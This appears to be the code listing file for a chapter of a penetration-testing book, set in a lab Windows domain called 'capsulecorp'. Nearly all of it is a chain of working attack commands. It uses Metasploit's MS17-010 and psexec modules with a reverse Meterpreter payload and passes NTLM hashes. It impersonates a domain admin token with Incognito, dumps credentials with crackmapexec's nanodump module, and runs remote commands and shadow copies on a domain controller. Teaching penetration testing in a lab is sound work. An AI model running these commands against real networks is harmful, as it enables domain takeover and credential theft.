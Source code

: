 # Chapter 10 Instructions

### Listing 10.1 Output of the net group command

```
run this on the raditz machine
net group "Domain Admins" /domain 
```

```
Use auxiliary/admin/smb/ms17_010_command
set rhosts 10.0.10.204
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
set threads 10
set command qwinsta
set verbose false
run
```

### Listing 10.3 Opening a new Meterpreter session on 10.0.10.207

```
use exploit/windows/smb/psexec
set rhosts 10.0.10.207
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
set payload windows/x64/meterpreter/reverse_winhttps
exploit
```

### Listing 10.4 Listing available tokens with Incognito

```
load incognito
list_tokens -u
```

### Listing 10.5 Impersonating the domain admin account

```
impersonate_token capsulecorp\serveradmin
```

### Listing 10.6 Harvesting the clear-text password using Mimikatz

```
crackmapexec smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -M nanodump
```

### Listing 10.7 Locating the domain controller’s IP address

```
cme smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -x "cmd /c ping capsulecorp.local"
```

### Listing 10.8 Checking for an existing VSC

```
cme smb 10.0.10.200 -u serveradmin -p 'S3cr3tPa$$!' -x 'vssadmin list shadows'
```

### Listing 10.9 Creating a new VSC

```
vssadmin create shadow /for=C:
```
